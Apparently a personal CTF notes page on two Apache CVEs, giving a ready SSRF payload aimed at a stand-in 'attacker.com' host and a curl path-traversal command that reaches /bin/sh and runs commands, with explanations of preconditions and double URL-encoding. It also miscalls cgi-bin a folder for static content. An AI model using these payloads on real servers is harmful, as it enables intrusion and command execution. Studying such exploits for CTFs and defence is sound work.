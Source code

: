 # Apache

## Apache <=2.4.48 (CVE-2021-40438)

Exploit: 
```
/?unix:{"A"*4096}|http://attacker.com/ 
```

Null pointer deference causes SSRF

**Details:**

- Doesn't seem to work using Python requests - use curl or burp instead.
- Seems to only work for intranet SSRF? (Greyhats 2022, grapache)



## Apache 2.4.49-50 LFI2RCE (CVE-2021-41773)

Exploit: `curl 'http://example.com/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo; ls'`
This is a very advanced exploit, and I shall keep it here for reference until I can understand it one day...

**Details:**

- target binary should be +x (default for /bin/sh)
- Needs `mod_cgi` enabled in Apache config (not default)
- Apache needs path traversal perms granted for `/bin` or `/` (usually not the case!)

`cgi-bin` - an obsolete folder that is used to store and serve static content in Apache. It tells the server how to pass data to and from an application.

This exploit is a form of path traversal: it goes to `cgi-bin`, then `.%%32%65/` (../ dot in urlencoded twice) up to root and down to `/bin/sh`. It's urldecoded twice (once by filter, once by backend). In Apache v2.4.49, double encoding is not necessary, but in v2.4.50 it is.

`--data` - POST request with input into /bin/sh 

CTF application: if the challenge seems to hint that it's Apache + path traversal, do consider this!
